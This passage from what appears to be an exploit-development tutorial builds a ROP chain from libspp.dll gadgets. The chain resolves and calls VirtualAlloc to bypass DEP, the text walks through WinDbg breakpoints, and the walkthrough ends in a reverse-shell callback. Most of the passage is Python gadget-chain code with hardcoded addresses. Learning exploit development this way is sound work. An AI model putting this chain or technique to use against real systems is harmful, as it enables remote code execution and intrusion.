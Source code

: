 Once we move `EDX` into `EAX` and `pop` the offset into `EBP` to `add eax, ebp ; dec ecx ; ret ;` we realize that same trick we were using isn't going to work here. So it will be easier to swap a few gadgets out to make this calculation a bit easier on us:

```python
    rop += pack('<L', 0x100cdc7a)    # xchg eax, ebp ; ret  ;
    rop += pack('<L', 0x1002f729)    # pop eax ; ret ;
    rop += pack('<L', 0xfffffe3c)    # pop eax ; ret ;
    rop += pack('<L', 0x1010ccc3)    # neg eax ; ret ;
```

In this scenario, after we move `EDX` into `EAX` we can swap the values of `EAX` and `EBP` and then `pop EBP` with the negative value that we want to negate into the actual value of our offset using `neg eax`. Once this negation is done, we can utilize the rest of our already made ROP chain and achieve the correct offset to land right in the heart of our NOPsled.

This time around let's set a breakpoint on `VirtualAlloc` in WinDbg using `bp kernel32!VirtualAllocStub` and execute our exploit. Once we hit the breakpoint let's use `pt` to finsih exeuction of `VirtualAlloc` and return out of the function and see that we land in a buffer filled with `0x90`'s. Here we can clear our breakpoint with `bc *` and resume execution with `g` and watch the callback for our reverse shell.

<img src="/images/VA_23.png" alt=""> 

<img src="/images/VA_21.png" alt=""> 

<img src="/images/VA_22.png" alt=""> 


I've pasted the entire ROP chain here for you to review and inspect. Could there be ways to optimize this chain, I imagine so. What was fun here was that relied upon manual inspection of gadgets to build a functional ROP chain that called an Windows API. We did not leverage much automated tooling like `mona`. I am firm believer in knowing how to do it the hard way first.

```python
    #[--Begin ROP chain--]
    rop = ""
    rop += pack("<L", (0x10154112)) # push esp ; inc ecx ; adc eax, 0x08468B10 ; pop esi ; ret  ;
    rop += pack("<L", (0x42424242)) # alignment for stack

    #[--Getting address for VirtualAlloc--]
    rop += pack("<L", (0x10052048))  # mov eax, esi ; pop esi ; retn 0x0004 ;
    rop += pack("<L", (0x41414141))  # alignment for ESI
    rop += pack('<L', (0x10154336))  # pop ebp ; ret ;
    rop += pack("<L", (0x41414141))  # alignment for ret 0x04
    rop += pack("<L", (0xffffffe0))  # value for ebp to add to eax (-0x20) (skeleton alignment)
    rop += pack('<L', (0x100fcd71))  # add eax, ebp; dec ecx ; ret
    rop += pack('<L', (0x100cb4d4))  # xchg eax, edx ; ret ;
    rop += pack('<L', (0x1002f729))  # pop eax ; ret ; 
    rop += pack('<L', (0xffffbee0))  # Neg offset to VirtualAlloc
    rop += pack('<L', (0x1014426e))  # xchg eax, ebp ; ret ; 
    rop += pack('<L', (0x1002f729))  # pop eax ; ret ; 
    rop += pack('<L', (0x101680b0))  # Address of WriteFile in the IAT of libspp.dll
    rop += pack('<L', (0x1014dc4c))  # mov eax, [eax] ; ret ; 
    rop += pack('<L', (0x100fcd71))  # add eax, ebp ; dec ecx ; ret ; 
    rop += pack('<L', (0x1012d24e))  # mov [edx], eax ; ret ; 
    #[--WinDbg: dds edx L1 = 0x76d4ff00 KERNEL32!WriteAllocStub--]

    #[--Moving along the stack to shellcode return address / lpAddress--]
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4) # inc edx ; ret ;

    #[--Patching lpAddress--]
    rop += pack('<L', 0x10129afb)    # mov eax, edx ; ret  ; 
```